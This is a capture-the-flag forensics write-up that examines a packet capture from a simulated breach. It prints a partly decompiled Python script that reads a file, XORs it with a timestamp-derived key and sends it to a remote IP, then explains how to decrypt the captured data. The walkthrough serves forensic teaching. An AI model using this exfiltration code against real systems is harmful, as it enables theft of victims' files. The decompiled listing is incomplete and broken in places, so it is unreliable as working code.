


## forensics/slingshot

We have recently suffered a data breach, and we need help figuring out if any data was stolen. Can you investigate this pcap file and see if there is any evidence of data exfiltration and if possible, what was stolen.

**Given:** `Slingshot.pcapng`

## Analysis
The given pcap file has 30 TCP streams. On stream 29 we can see that there was a file named `download.pyc` downloaded to victim's machine. We can extract the file from the pcap file and decompile it to understand what was stolen.



The file `download.pyc` is a compiled python bytecode file. I used [`pycdc`](https://github.com/zrax/pycdc) to decompile the file and got the following python code.

### download.py (decompiled from download.pyc)
```python
# Source Generated with Decompyle++
# File: download.pyc (Python 3.11)

import sys
import socket
import time
import math
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993
with open(file, 'rb') as r:
    data_bytes = r.read()
    None(None, None)
with None:
    with None:
        if not None:
            pass
current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = (lambda .0: pass# WARNING: Decompyle incomplete
)(zip(key_bytes, data_bytes)())
s.connect((ip, port))
s.send(encrypt_bytes)
```

The python bytecode was for `python 3.11` and many of the decompilers don't have reliable support above `python 3.9`. We have to infer based on the partial decompilation we got.

## Solution
The `download.py` script reads a file and sends it to a remote server. The file is encrypted using a key generated from the current time. The file is then encrypted by XORing the key and the file data. The encrypted file is then sent to the remote server.
So, the next TCP stream (stream 30) in the pcap file should contain the encrypted file. We can extract the file and decrypt it using the same key to get the original file. The key can be recovered by timestamp of the packet in the pcap file. I used [CyberChef](https://gchq.github.io/CyberChef/) to decrypt the file. The decrypted file is an image with flag.

## Flag
